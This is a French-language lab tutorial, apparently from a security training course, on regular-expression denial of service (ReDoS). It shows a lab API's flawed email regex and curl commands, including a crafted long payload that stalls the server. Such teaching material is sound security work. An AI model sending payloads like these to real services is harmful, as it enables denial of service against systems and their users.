Déni de service d'expression régulière (ReDoS)
==============================================

* * * * *

Supposons que nous ayons un utilisateur qui soumet une entrée bénigne à une API. Côté serveur, un développeur peut faire correspondre n'importe quelle entrée à une expression régulière. Après un laps de temps généralement constant, l'API répond. Dans certains cas, un attaquant peut être en mesure de provoquer des retards importants dans le temps de réponse de l'API en soumettant une charge utile spécialement conçue qui tente d'exploiter certaines particularités/inefficacités du moteur de correspondance des expressions régulières. Plus cette charge utile construite est longue, plus l'API mettra de temps à répondre. L'exploitation de tels modèles "malfaisants" dans une expression régulière pour augmenter le temps d'évaluation est appelée une attaque par déni de service par expression régulière (ReDoS).

Évaluons ensemble une API vulnérable aux attaques ReDoS.

Allez à la fin de cette section et cliquez sur `Click here to spawn the target system!`ou sur l' `Reset Target`icône . Utilisez la Pwnbox fournie ou une machine virtuelle locale avec la clé VPN fournie pour atteindre l'application cible et suivez-la.

L'API réside dans `http://<TARGET IP>:3000/api/check-email`et accepte un paramètre appelé *email* .

Interagissons avec lui comme suit.

```
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/check-email?email=test_value"
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}

```

Soumettez la regex ci-dessus à [regex101.com](https://regex101.com/) pour une explication détaillée. Ensuite, soumettez l'expression régulière ci-dessus à [https://jex.im/regulex/](https://jex.im/regulex/#!flags=&re=%5E(%5Ba-zA-Z0-9_.-%5D)%2B%40((%5Ba-zA-Z0-9-%5D)%2B.)%2B(%5Ba-zA-Z0-9%5D%7B2%2C4%7D)%2B%24) pour une visualisation.

![image](https://academy.hackthebox.com/storage/modules/160/TXFOUkOko.png)

Les deuxième et troisième groupes effectuent de mauvaises vérifications itératives.

Envoyons la valeur valide suivante et voyons combien de temps l'API met pour répondre.

```
dsgsec@htb[/htb]$ curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
{"regex":"/^([a-zA-Z0-9_.-])+@(([a-zA-Z0-9-])+.)+([a-zA-Z0-9]{2,4})+$/","success":false}

```

Vous remarquerez que l'API met plusieurs secondes à répondre et que des charges utiles plus longues augmentent le temps d'évaluation.

La différence de temps de réponse entre la première commande cURL ci-dessus et la seconde est significative.

L'API est sans aucun doute vulnérable aux attaques ReDoS.
